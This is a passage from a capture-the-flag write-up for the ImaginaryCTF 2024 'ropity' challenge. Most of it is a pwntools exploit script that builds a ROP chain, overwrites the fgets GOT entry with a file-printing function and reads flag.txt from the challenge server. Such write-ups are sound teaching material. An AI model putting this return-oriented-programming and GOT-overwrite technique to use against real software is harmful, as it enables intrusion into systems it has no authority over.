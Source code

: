 ![ropity_mem_layout](/assets/img/ictf2024/ropity_mem_layout.png)

Awesome! Now, let's write a pwntools script to do this:

```python
from pwn import *

#p = process("./vuln")
p = remote("ropity.chal.imaginaryctf.org", 1337)
elf = ELF("./vuln")

# mov eax, 0x0; test rax, rax; ret;
zero_eax = 0x0040109d
# syscall; nop; pop rbp; ret
syscall = 0x00401198
# pop rbp; ret
pop_rbp = 0x000000000040111d
# call fgets in main. also loads the value pointed to by [rbp - 8] to rax,
# which is where we write
call_fgets = 0x0000000000401142
# Location where we'll write "file.txt\0"
filename_addr = 0x00404050
printfile = elf.sym.printfile
mov_edi = 0x00000000004010a7
fgets_got = 0x404018

data = 0x00404030

# To fill up the buf
payload = b"A"*16
# Overwrite the GOT entry
payload += p64(pop_rbp)
payload += p64(fgets_got + 0x8)
# Return so we can write the second payload to the above address
payload += p64(call_fgets)

if args.GDB:
    gdb.attach(p)

input("PAUSE")

p.sendline(payload)
p.sendline(p64(printfile) + p64(0) + p64(pop_rbp) + p64(fgets_got + 0x30) + p64(call_fgets) + b"flag.txt" + p64(0))

p.interactive()
```
